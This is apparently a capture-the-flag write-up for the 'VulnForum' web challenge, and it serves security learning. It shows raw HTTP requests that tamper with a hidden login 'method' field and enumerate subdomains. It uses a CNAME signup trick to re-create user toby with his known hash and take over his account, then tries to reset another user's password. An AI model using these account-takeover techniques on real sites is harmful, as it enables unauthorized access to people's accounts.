


# VulnForum

http://www.vulnforum.co.uk/ - 4 flags to find

Front page shows us


Links are
- Public Notices - /1
- Comment - /1/1
- toby - /user/1ac9c036aaf12a755084dc6a326ed7f5

In order these are the pages shown




So questions:
1. Are there more hidden forums apart from public notices?
2. Are there more hidden comments in the public notices forums?
3. Are there more users than just toby?
4. What format is toby's ID? Looks like MD5 hash?

<ins>1. Are there more hidden forums apart from public notices?</ins>

I tried in the range 1-200 and only 1 returned a 200 OK response

<ins>2. Are there more hidden comments in the public notices forums?</ins>

Again going in the range 1-200 only 1 returned a 200 OK response within the public notices forum

<ins>3. Are there more users than just toby?
4. What format is toby's ID? Looks like MD5 hash?</ins>

I'll take these questions together, so yes according to the hash-id python script this is an MD5 hash. Are there more users? Not sure yet I can't seem to swap the hash for a number....

Moving on for now, there's a login page let's look at that.

Using toby as our user name we can observe this request

```
POST /login HTTP/1.1
Host: www.vulnforum.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 36
Origin: http://www.vulnforum.co.uk
Connection: close
Referer: http://www.vulnforum.co.uk/login
Cookie: ctfchallenge=xxx

username=toby&password=&method=local
```

This is triggered by a click event on the login button

```javascript
$('.loginBtn').click( function(){

    $.post( "/login", {
        'username'  :   $('input[name="username"]').val(),
        'password'  :   $('input[name="password"]').val(),
        'method'    :   $('input[name="method"]').val(),
    },function( data ) {
        alert( data.display_msg );
        window.location.href = '/';
    }).fail(function(err){
        alert( err.responseJSON.display_msg );
    });
});
```

And the response

```
HTTP/1.1 401 Unauthorized
server: nginx/1.21.1
date: Sun, 05 Jun 2022 19:22:44 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnforum.co.uk
connection: close
Content-Length: 65

{"display_msg":"Invalid Username or Password","technical_msg":""}
```

Method seems a bit weird, it's a hard coded hidden input field in the HTML

```html
<input name="method" type="hidden" value="local" class="form-control">
```

Let's try changing it to remote in Burp Repeater. Here's the response

```
HTTP/1.1 403 Forbidden
server: nginx/1.21.1
date: Sun, 05 Jun 2022 19:33:06 GMT
content-type: application/json
set-cookie: ctfchallenge=xxxxxx; Max-Age=2592000; Path=/; domain=.vulnforum.co.uk
connection: close
Content-Length: 187

{"display_msg":"Server Error","technical_msg":"Server \"http:\/\/4v4eqydx.auth.vulnforum.co.uk\/auth\" responded with a 404 error","flag":"[^FLAG^XXXXXXXXXXXXXXXXX^FLAG^]"}
```

Wooo that's flag no. 1 done :)

It also revealed a hidden subdomain with a path ```http://4v4eqydx.auth.vulnforum.co.uk/auth``` let's visit that


OK, well it responded with content so it can't be that invalid surely? Let's try some content discovery from the root path.

Whilst that runs in the background I decided to check the subdomains via assetfinder

```
└─$ assetfinder -subs-only vulnforum.co.uk  
www.vulnforum.co.uk
vulnforum.co.uk
vulnforum.co.uk
vulnforum.co.uk
*.www.vulnforum.co.uk
auth.vulnforum.co.uk
*.vulnforum.co.uk
vulnforum.co.uk
*.www.vulnforum.co.uk
```

So auth is on there, but it doesn't respond. I should probably try fuzzing the subdomain such as ```FUZZ.auth.vulnforum.co.uk```

Yeah the content discovery at the root of the 'invalid domain' returned nothing so lets start the subdomain fuzz...

Nope nothing. OK let's attempt content discovery again this time from ```4v4eqydx.auth.vulnforum.co.uk/auth/FUZZ```

Again nothing...

OK let's step back take a closer look at that ```4v4eqydx.auth.vulnforum.co.uk``` subdomain. Let's check it with the host command

```
└─$ host 4v4eqydx.auth.vulnforum.co.uk
4v4eqydx.auth.vulnforum.co.uk is an alias for vulnauth.co.uk.
vulnauth.co.uk has address 68.183.255.206
```

Ahhh a new domain entirely, let's check it!

Yay finally! Have flag no.2


Playing around with the form so far I always receive an error in the validation

```html
<div class="alert alert-danger" role="alert">
    <p>domain name has already been registered </p>
    <p>Email address is already signed up </p>
</div>
```

OK let's do some more subdomain enumeration on our new domain

```
└─$ assetfinder -subs-only vulnauth.co.uk 
vulnauth.co.uk
admin.vulnauth.co.uk
hostmaster.vulnauth.co.uk
```

So hostmaster gives me the same 'invalid domain' response I've seen before, but admin presents me with a redirect to a login screen


I don't have any email addresses to try yet!

I started to play around with the create account form on vulnauth and noticed if I used the hostmaster.vulnauth.co.uk domain the ```domain name has already been registered``` message disappeared from the response.

I eventually settled on the request below

```
POST / HTTP/1.1
Host: vulnauth.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: http://vulnauth.co.uk
Connection: close
Referer: http://vulnauth.co.uk/
Cookie: ctfchallenge=xxx
Upgrade-Insecure-Requests: 1

signup_domain=hostmaster.vulnauth.co.uk&signup_email=admin%40vulnauth.co.uk&signup_password=password
```

Which gave me a response of

```
HTTP/1.1 302 Found
server: nginx/1.21.1
date: Sun, 05 Jun 2022 21:51:23 GMT
content-type: text/html; charset=UTF-8
set-cookie: ctfchallenge=xxxxx; Max-Age=2592000; Path=/; domain=.vulnauth.co.uk
location: /complete?domain=hostmaster.vulnauth.co.uk
connection: close
Content-Length: 0
```

Which redirects to


OK lets visit hostmaster again


So I can create users and edit existing users and their passwords! So I created a user1 user, then tried to create it again and got this back in the HTML response

```html
<div class="alert alert-danger">
    <p>Username already exists</p>
</div>
```

So can I take the list of usernames we were provided and try to create them to see if any of them give the above response. Answer, yes



So this was probably a rabbit hole, I thought maybe I could loop through the user list and see which ones exist and then edit their password. Problem is I had no way of knowing their ID to edit them without resetting the password of every user, which would be a lot of requests!

So if the CNAME trick worked for hostmaster.vulnauth.co.uk perhaps it would also work for 4v4eqydx.auth.vulnforum.co.uk. And the answer was yes it did


Naturally my mind turned back to the login form of vulnforum.co.uk, perhaps I could create my own user and log in

So I created a new user

```
POST / HTTP/1.1
Host: 4v4eqydx.auth.vulnforum.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://4v4eqydx.auth.vulnforum.co.uk
Connection: close
Referer: http://4v4eqydx.auth.vulnforum.co.uk/
Cookie: ctfchallenge=xxx; token=xxx%3D
Upgrade-Insecure-Requests: 1

new_username=user1&new_uuid=xxx&new_password=password
```

Then tried to login to vulnforum

```
POST /login HTTP/1.1
Host: www.vulnforum.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 46
Origin: http://www.vulnforum.co.uk
Connection: close
Referer: http://www.vulnforum.co.uk/login
Cookie: ctfchallenge=xxx

username=user1&password=password&method=remote
```

And got the response

```
HTTP/1.1 400 Bad Request
server: nginx/1.21.1
date: Mon, 06 Jun 2022 15:12:48 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnforum.co.uk
connection: close
Content-Length: 172

{"display_msg":"Could not lookup user from remote hash","technical_msg":"local_uuid could not be found on database","flag":"[^FLAG^xxx^FLAG^]"}
```

Ahhhh remember our friend toby with his ID? Let's recreate him with our own password

```
POST / HTTP/1.1
Host: 4v4eqydx.auth.vulnforum.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://4v4eqydx.auth.vulnforum.co.uk
Connection: close
Referer: http://4v4eqydx.auth.vulnforum.co.uk/
Cookie: ctfchallenge=xxx; token=xxx%3D
Upgrade-Insecure-Requests: 1

new_username=toby&new_uuid=1ac9c036aaf12a755084dc6a326ed7f5&new_password=password
```

Login then gave me

```
HTTP/1.1 201 Created
server: nginx/1.21.1
date: Mon, 06 Jun 2022 15:14:59 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnforum.co.uk
set-cookie: token=xxx%3D; expires=Mon, 06-Jun-2022 16:14:59 GMT; Max-Age=3600; path=/
connection: close
Content-Length: 109

{"display_msg":"Login Successful","technical_msg":"","flag":"[^FLAG^xxx^FLAG^]"}
```

Success! Flag no. 3


So we have access to the user forums and a new user john! One more flag to go!

And toby has a message for john! Change password feature eh! Interesting! :D


Let's take a look at the request for that as toby

```
GET /settings/password?password=password&hash=1ac9c036aaf12a755084dc6a326ed7f5 HTTP/1.1
Host: www.vulnforum.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://www.vulnforum.co.uk/settings
Cookie: ctfchallenge=xxx; token=xxx%3D
```

What's the bet I can take johns hash and change his password for him?

```
GET /settings/password?password=password&hash=76887c0378ba2b80f17422fb0c0791c4 HTTP/1.1
Host: www.vulnforum.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://www.vulnforum.co.uk/settings
Cookie: ctfchallenge=xxx; token=xxx%3D
```

Damn not that easy apparently :D

```
HTTP/1.1 400 Bad Request
server: nginx/1.21.1
date: Mon, 06 Jun 2022 15:43:37 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnforum.co.uk
set-cookie: token=xxx%3D; expires=Mon, 06-Jun-2022 16:43:37 GMT; Max-Age=3600; path=/
connection: close
Content-Length: 47

{"display_msg":"Invalid security hash entered"}
```

I also tried the same trick for john as I did for toby and re-created him remotely, but that didn't work either.

```
HTTP/1.1 403 Forbidden
server: nginx/1.21.1
date: Mon, 06 Jun 2022 15:41:18 GMT
content-type: application/json
set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulnforum.co.uk
connection: close
Content-Length: 155

{"display_msg":"Admins cannot login using this method","technical_msg":"Admins must logon locally","flag":"[^FLAG^xxx^FLAG^]"}
```